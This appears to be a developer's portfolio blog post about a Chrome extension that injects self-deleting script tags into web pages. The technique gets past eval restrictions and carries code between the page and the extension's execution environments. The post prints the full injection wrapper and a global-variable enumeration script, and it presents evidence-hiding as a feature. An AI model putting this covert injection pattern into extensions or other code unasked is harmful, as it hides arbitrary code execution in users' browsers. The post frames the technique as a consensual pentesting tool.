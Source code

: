 ```yaml
---
title: JavaScript Exploitation in Chrome V8
subtitle: Capstone: Traversing execution environments and VM sandboxing.
category: Portfolio
cover: javascript-exploitation-chrome-v8.png
---
```


Shout out to my colleagues who worked with me on this project:

- [Ali Shubber](https://github.com/alishubber) - Security Engineer at T-Mobile
- [Muhammad Hussain](https://github.com/mnh78614) - UI/UX Designer, Starbucks

---

This project is many things, most importantly:
- An exploit of Chrome's browser environment and internal API
- The exploit weaponized within a chrome extension
- A system for performing automated pentesting by leveraging said exploit.

## The Exploit

Chrome is reputed as one of the most secure web browsers due to its built-in security features. Under the hood Chrome uses the [V8 Engine](https://developers.google.com/v8/) (also used by Node.js!) and spawns several separate runtime environments for each website and extension. These "[Execution Environments](https://developer.chrome.com/extensions/content_scripts#execution-environment)" are silo'd off from each other, except for [built-in methods](https://developer.chrome.com/extensions/sandboxingEval) that evaluate code after it is aggressively sanitized.

However, the sanitizer only blocks overt attempts at evaluating unsafe code, so it's possible to circumvent by abstracting out some of the evaluation logic. This can be done by leveraging the `Window.postMessage` API to add an exploit to the DOM as a self-executing script tag that deletes itself, thus `eval` never has to be used for the script to be interpreted.

It's a little complicated, but it's documented in the [project](https://github.com/RcKeller/security-extension/blob/master/extension/app/core/DOM.js#L14) and we'll go through it step by step:

### Step 1. Prepare an exploit script
**Environment:** Background Script (Chrome Extension)

Start with an exploit. Something that logs global variables outside of the vanilla JS API is a good start:

```js
/*
Name:         Get Global State
Version:      1.0
Author:       Ryan Keller
Description:  Find all unique, application-specific variables
*/
const jsAPI = ['top', 'window', 'location', 'external', 'chrome', 'document', 'inlineCSS', 'target', 'width', 'height', 'canvas', 'data', 'DOMURL', 'img', 'svg', 'ctx', 'url', 'w', 'a', 'speechSynthesis', 'webkitNotifications', 'localStorage', 'sessionStorage', 'applicationCache', 'webkitStorageInfo', 'indexedDB', 'webkitIndexedDB', 'crypto', 'CSS', 'performance', 'console', 'devicePixelRatio', 'styleMedia', 'parent', 'opener', 'frames', 'self', 'defaultstatus', 'defaultStatus', 'status', 'name', 'length', 'closed', 'pageYOffset', 'pageXOffset', 'scrollY', 'scrollX', 'screenTop', 'screenLeft', 'screenY', 'screenX', 'innerWidth', 'innerHeight', 'outerWidth', 'outerHeight', 'offscreenBuffering', 'frameElement', 'clientInformation', 'navigator', 'toolbar', 'statusbar', 'scrollbars', 'personalbar', 'menubar', 'locationbar', 'history', 'screen', 'postMessage', 'close', 'blur', 'focus', 'ondeviceorientation', 'ondevicemotion', 'onunload', 'onstorage', 'onresize', 'onpopstate', 'onpageshow', 'onpagehide', 'ononline', 'onoffline', 'onmessage', 'onhashchange', 'onbeforeunload', 'onwaiting', 'onvolumechange', 'ontimeupdate', 'onsuspend', 'onsubmit', 'onstalled', 'onshow', 'onselect', 'onseeking', 'onseeked', 'onscroll', 'onreset', 'onratechange', 'onprogress', 'onplaying', 'onplay', 'onpause', 'onmousewheel', 'onmouseup', 'onmouseover', 'onmouseout', 'onmousemove', 'onmouseleave', 'onmouseenter', 'onmousedown', 'onloadstart', 'onloadedmetadata', 'onloadeddata', 'onload', 'onkeyup', 'onkeypress', 'onkeydown', 'oninvalid', 'oninput', 'onfocus', 'onerror', 'onended', 'onemptied', 'ondurationchange', 'ondrop', 'ondragstart', 'ondragover', 'ondragleave', 'ondragenter', 'ondragend', 'ondrag', 'ondblclick', 'oncuechange', 'oncontextmenu', 'onclose', 'onclick', 'onchange', 'oncanplaythrough', 'oncanplay', 'oncancel', 'onblur', 'onabort', 'onwheel', 'onwebkittransitionend', 'onwebkitanimationstart', 'onwebkitanimationiteration', 'onwebkitanimationend', 'ontransitionend', 'onsearch', 'getSelection', 'print', 'stop', 'open', 'showModalDialog', 'alert', 'confirm', 'prompt', 'find', 'scrollBy', 'scrollTo', 'scroll', 'moveBy', 'moveTo', 'resizeBy', 'resizeTo', 'matchMedia', 'requestAnimationFrame', 'cancelAnimationFrame', 'webkitRequestAnimationFrame', 'webkitCancelAnimationFrame', 'webkitCancelRequestAnimationFrame', 'captureEvents', 'releaseEvents', 'atob', 'btoa', 'setTimeout', 'clearTimeout', 'setInterval', 'clearInterval', 'TEMPORARY', 'PERSISTENT', 'getComputedStyle', 'getMatchedCSSRules', 'webkitConvertPointFromPageToNode', 'webkitConvertPointFromNodeToPage', 'webkitRequestFileSystem', 'webkitResolveLocalFileSystemURL', 'openDatabase', 'addEventListener', 'removeEventListener', 'dispatchEvent']
let globals = {}
Object.keys(window).forEach((global) => {
  if (jsAPI.includes(global) === false) {
    globals[global] = global
  }
})
RETURN(globals)
```

This needs to be recorded as a string, to avoid escaping everything, use [raw string literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/raw).

```js
//  ES6 black magic
String.raw`console.log('no',"need",`to`,'escape',"anything")`;
```

### Step 1: Wrap the exploit as a browser event
**Environment:** Background Script (Chrome Extension)

We can circumvent using `eval`, which is sanitized, by creating `<script>` tags in the DOM itself. To make our exploit even more discrete, we're going to wrap the malicious script with code that creates a self-executing function that deletes itself once it runs. Crafty.

Save this function as another raw string:

```js
function RAW_DOM_INJECTION (script = {}) {
  return new Promise((resolve, reject) => {
    try {
      /* EXECUTION ENVIRONMENT: RAW DOM -> CONTENT SCRIPT */
      window.addEventListener(script.id, (e) => {
        /* EXECUTION ENVIRONMENT: CONTENT SCRIPT -> BACKGROUND (EXTENSION) */
        const { detail } = e
        resolve(detail)
      }, { once: true })
      /* EXECUTION ENVIRONMENT: CONTENT SCRIPT -> RAW DOM */
      const element = document.createElement('script')
      element.textContent = '(async function () {' +
        'const execution = () => new Promise((RETURN, ERROR) => { ' + script.code + ' });' +
        'let response = await execution();' +
        'var event = document.createEvent("CustomEvent");' +
        'event.initCustomEvent("' + script.id + '", true, true, response);' +
        'window.dispatchEvent(event);' +
      '})();';
      /* EXECUTION ENVIRONMENT: CONTENT SCRIPT -> RAW DOM */
      (document.head || document.documentElement).appendChild(element)
      element.parentNode.removeChild(element)
    } catch (ERROR) {
      console.error(ERROR)
      resolve({ ERROR })
    }
  })
}
```

You may wonder why we're wrapping this as an event - this is so we can listen for the output of the script! Our background scripts run in a different VM environment so we can't access the return values of scripts running in the page, BUT we can listen for an event with a unique ID and intercept output that way!

### Step 2. Execute the script through Chrome APIs

Use the native chrome API methods like `chrome.tabs.executeScript` or `chrome.tabs.executeScriptAsync` (if your script returns a promise) to evaluate the wrapped exploit [like so](https://github.com/RcKeller/security-extension/blob/master/extension/app/ducks/pages.js#L56), and watch the magic happen.

Here's everything that happens in chronological order:

- The extension creates events using the content script environment, which has DOM access.
- Background sends a script for execution
- The content script defines an event listener based on the script ID
- A script tag wrapping the exploit is made
  - It wraps the function, ideally with a promise
  - Create and dispatch an event listener, passing the promise a return value
- Inject the script, which executes immediately
- Remove the script tag to hide the evidence.
- Function executes in RAW DOM, dispatches event, then falls out of scope. Poof.
- Event listener passes a message back the the BACKGROUND, our extension.

Voila! The exploit should run successfully, and delete any trace of its being there.

## Conclusion

By exploiting what we know about Chrome security and the V8 engine, we can effectively traverse environments using internal APIs in a unique and creative way. This attack requires a consenting user running our scripts as a chrome extension, and isn't a viable attack for unsuspecting users. Rather, it's best used by the informed as a penetration testing tool. I use this exploit to perform static analysis of websites as I browse the web.

This exploit and the weaponized extension are all open source and will never be for-profit, and I highly encourage you to check it out on [my GitHub](https://github.com/RcKeller/security-extension) and contribute if you're interested!

